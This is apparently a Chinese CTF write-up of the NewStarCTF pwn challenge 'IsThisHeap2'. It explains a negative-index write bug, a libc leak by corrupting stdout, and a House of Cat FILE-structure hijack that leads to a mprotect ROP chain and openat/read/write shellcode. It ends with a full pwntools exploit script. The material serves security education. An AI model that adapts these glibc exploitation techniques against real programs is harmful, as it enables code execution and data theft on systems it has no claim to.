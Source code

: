 ```yaml
---
title: IsThisHeap2
date: 2023-01-02 21:54:26
categories: 
- pwn_wp
tags: 
- pwn
- IO_FILE
- index overflow

---
```


NewStarCTF，看起来是堆题实际上是对IO_FILE的利用。
<!-- more -->

查壳，啥都开了，就像真的堆题一样

```sh
[*] '/home/alphonse/CTF_GAME/new_star/isThisHeap2/pwn'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

而且还开了沙箱

```sh
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x08 0x00 0x40000000  if (A >= 0x40000000) goto 0012
 0004: 0x15 0x07 0x00 0x00000002  if (A == open) goto 0012
 0005: 0x15 0x06 0x00 0x0000009d  if (A == prctl) goto 0012
 0006: 0x15 0x05 0x00 0x00000039  if (A == fork) goto 0012
 0007: 0x15 0x04 0x00 0x0000003a  if (A == vfork) goto 0012
 0008: 0x15 0x03 0x00 0x0000003b  if (A == execve) goto 0012
 0009: 0x15 0x02 0x00 0x00000065  if (A == ptrace) goto 0012
 0010: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

其中ban掉open、execve是比较麻烦的。

程序有个菜单，有add、delete、edit、show、exit五个功能，但实际上delete和show都没有实现。

在add中最多可以同时存在16个chunk，malloc长度固定为0x200。

在edit中同样存在下标越界漏洞，没有检查idx是否<0，会从heaps+idx*0x8的位置取出一个指针，并向指针指向的位置写入0x200字节的内容。heaps在0x202060，而在0x202008处有一个**dso_handle指向自己，可以修改dso_handle获得一个任意写，偏移为-11**。

然而这里因为开了RELRO，应该是写不了GOT表了，并且由于没有了show，要leak libc也没那么容易了。

**不过stdin、stdout、stderr的指针就在heaps前面，这里可以直接通过edit取出他们的指针并对他们进行修改。**

stdout、stdin、stderr的偏移是-8、-6、-4。

这题是对IO_FILE的利用，可以通过edit的漏洞直接对stdin、stdout、stderr进行操作，可以影响文件流的操作。

泄露libc可以通过修改stdout的`_flag`字段和`_IO_write_base`字段进行泄露。puts函数最后对调用到stdout的vtable的`_xsputn()`，通过IO_FILE中的指针指定输出内容的位置。修改对应指针内容就可以改变输出的位置，从而泄露信息，之后debug调一下就能找到libc中地址的位置，从而泄露出libc。

```py
payload=p64(0xfbad1800) + p64(0)*3 + '\x00' 
# flag + _IO_read_ptr + _IO_read_end + _IO_read_base + _IO_write_base(只改了低字节)
```

后面get shell就有些麻烦了，官方的WP是走的House of apple2或House of cat打puts劫持程序流，之后用mprotect分配可读可写可执行的空间之后写shellcode走orw（open被ban了只能走openat）。

看网上有走rop的orw（open被ban了只能走openat），通过修改stdin劫持scanf将rop链写到main的返回地址，并在写完后再写一次将scanf的返回地址覆盖为`leave;ret;`跳出到main结束，最后main返回调用rop链。

先按照官方的WP走，House of apple2和House of cat都是对**_IO_wfile_jumps**中的函数进行攻击，官方的wp走的好像是`House of Cat`。

首先利用`stdout`泄露`libc`，之后便修改`stdout`走`House of Cat`，伪造`vtable`时修改为`_IO_wfile_jumps`，并通过偏移将`xsputn`修改为`seekoff`，伪造`wide_data->vtable`时将`_IO_WOVERFLOW`修改为`set_context+61`，后面调用`puts`就会一路走到`set_context+61`，设置各个寄存器，劫持rip执行read输入数据，同时也要劫持rsp和read的地址使得输入的数据能够栈溢出，之后通过栈溢出走rop链调用`mprotect`修改写入数据位置为`rwx`，之后调用写入的`shellcode`执行`orw`。

官方wp：

```py
#!/usr/bin/env python2
# -*- coding: utf-8 -*
from pwn import *

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))


elf = ELF('./pwn')
context(arch = elf.arch, os = 'linux',log_level = 'debug')
# p = process('./pwn')
p = remote("node4.buuoj.cn",28657)

def edit(idx,data):
    sla(">> ",str(3))
    sla("Index",str(idx))
    sea("Content",str(data))

edit(-8,p64(0xfbad1800)+p64(0)*3+'\x00')
libc_leak = uu64(ru('\x7f',drop=False)[-6:])
libc_base = libc_leak - 0x1ec980

libc = ELF('./libc-2.31.so')
libc.address = libc_base
system_addr = libc.sym.system
bin_sh = libc.search('/bin/sh').next()
magic = libc.sym.setcontext + 61

rdx = 0x0000000000142c92 + libc_base
rdi = 0x0000000000023b6a + libc_base
rsi = 0x000000000002601f + libc_base

_IO_wfile_jumps = libc_base + 0x1e8f60
target = libc_base + 0x1ed6a0 # _IO_2_1_stdout_
addr = target&(~0xfff)
fuck_frame = SigreturnFrame()
fuck_frame.rdi = 0
fuck_frame.rsi = addr
fuck_frame.rdx = 0x300
fuck_frame.rsp = addr
fuck_frame.rip = libc.sym.read
fuck_io = p64(0)*5 + p64(1) + p64((((((target+0x100)>>32)-1))<<32)+((target+0x100)&0xffffffff)) + p64(3) + p64(4)
# p64(1)后的那个地址指向fuck_frame，后面set_context会将这个地址设置为rdx，并以其为基准将fuck_frame的值赋给寄存器
fuck_io = fuck_io.ljust(0x88,'\0')
fuck_io += p64(target+0x30)
fuck_io = fuck_io.ljust(0xa0,'\0')
fuck_io += p64(target+0x10)   # wide_data
fuck_io = fuck_io.ljust(0xd8,'\0')
fuck_io += p64(_IO_wfile_jumps + 0x10) # vtable 通过偏移将xsputn改为seekoff
fuck_io += p64(0) + p64(magic) + p64(target+0xe8-0x18) + p64(0) # magic覆盖了wide_data的vtable中的_IO_WOVERFLOW
fuck_io += str(fuck_frame)

edit(-8,fuck_io)

sleep(0.1)
se(p64(rdi)+p64(addr)+p64(rsi)+p64(0x1000)+p64(rdx)+p64(7)+p64(libc.sym.mprotect)+p64(addr+0x40)+asm('lea rbp,[rsp+0x200];'+shellcraft.openat(0,"/flag",0)+shellcraft.read('rax','rbp',0x100)+shellcraft.write(1,'rbp',0x100)+shellcraft.exit(0)))

p.interactive()
```







